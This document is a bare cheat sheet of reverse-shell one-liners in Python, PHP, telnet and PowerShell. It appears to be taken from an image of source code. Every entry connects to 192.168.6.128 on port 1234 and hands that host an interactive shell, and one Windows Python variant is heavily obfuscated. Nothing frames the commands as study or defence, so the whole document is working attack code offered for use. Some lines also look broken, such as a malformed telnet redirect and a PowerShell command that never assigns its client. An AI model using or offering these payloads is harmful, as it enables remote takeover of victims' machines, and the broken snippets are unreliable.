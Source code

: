 PYTHON REVERSE SHELL
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.6.128",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

PYTHON REVERSE SHELL
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.6.128",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'

PYTHON REVERSE SHELL WINDOWS
C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('192.168.6.128', 1234)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"

PHP REVERSE SHELL
php -r '$sock=fsockopen("192.168.6.128",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

PHP REVERSE SHELL
php -r '$s=fsockopen("192.168.6.128",1234);shell_exec("/bin/sh -i <&3 >&3 2>&3");'

PHP REVERSE SHELL
php -r '$s=fsockopen("192.168.6.128",1234);`/bin/sh -i <&3 >&3 2>&3`;'

PHP REVERSE SHELL
php -r '$s=fsockopen("192.168.6.128",1234);system("/bin/sh -i <&3 >&3 2>&3");'

PHP REVERSE SHELL
php -r '$s=fsockopen("192.168.6.128",1234);popen("/bin/sh -i <&3 >&3 2>&3", "r");'

TELNET REVERSE SHELL
rm -f /tmp/p; mknod /tmp/p p && telnet 192.168.6.128 1234 0/tmp/p

TELNET REVERSE SHELL
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|telnet 192.168.6.128 1234 > /tmp/f

POWERSHELL REVERSE SHELL
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("192.168.6.128",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
